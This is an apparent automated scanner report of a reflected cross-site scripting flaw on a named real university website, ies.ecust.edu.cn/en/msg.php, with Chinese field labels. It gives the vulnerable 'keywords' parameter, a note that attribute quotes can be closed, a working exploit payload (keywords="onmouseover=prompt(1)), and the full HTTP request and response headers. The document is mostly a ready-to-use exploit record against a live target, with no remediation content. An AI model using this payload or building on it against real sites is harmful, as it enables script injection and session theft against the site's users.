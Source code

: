 ## https://ies.ecust.edu.cn/en/msg.php
| Key | Value |
| --- | ----- |
| XSS类型 | AttibuteValue |
| 时间 | 2024-11-07 17:17:41 |
| XSS位置 | get_parameter |
| 隐藏参数 | true |
| Key | keywords |
| 描述 | 引号可被闭合,可使用其他事件造成xss,TagName:input,type:"text" |
| Payload | keywords="u42ew2 |
| 利用payload | keywords="onmouseover=prompt(1) |

### 请求包
```
GET /en/msg.php?api_key=m9tw2&callback=fs3m7&cat=syd73&emailto=q1q02&id=172&key=i4di2&keywords=%22u42ew2&l=qbsr9&lang=lkm90&list_type=hekl8&p=q43j3&password=q4el6&redirect=qt9l0&s=cypq1&terms=qeak3&text=quyk9&token=hw0w2&type=i10p5&uid=pqtv0&year=fw7u6 HTTP/1.1
Host: ies.ecust.edu.cn
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 11_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept-Charset: utf-8
Cookie: somecookie
Accept-Encoding: gzip


```

### 返回Header
```
Set-Cookie: PHPSESSID=6fgertb3pkqgtm7qqp1m2avod4; path=/; secure; HttpOnly Path=/; HttpOnly; Secure
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Server: none
X-Content-Type-Options: nosniff nosniff
X-Download-Options: noopen noopen
X-Xss-Protection: 1; mode=block 1; mode=block
Content-Type: text/html
Referrer-Policy: strict-origin-when-cross-origin strict-origin strict-origin-when-cross-origin strict-origin
Pragma: no-cache
Connection: keep-alive
Date: Thu, 07 Nov 2024 17:17:38 GMT
Expires: Thu, 19 Nov 1981 08:52:00 GMT
X-Frame-Options: SAMEORIGIN SAMEORIGIN SAMEORIGIN SAMEORIGIN
X-Permitted-Cross-Domain-Policies: master-only master-only

```

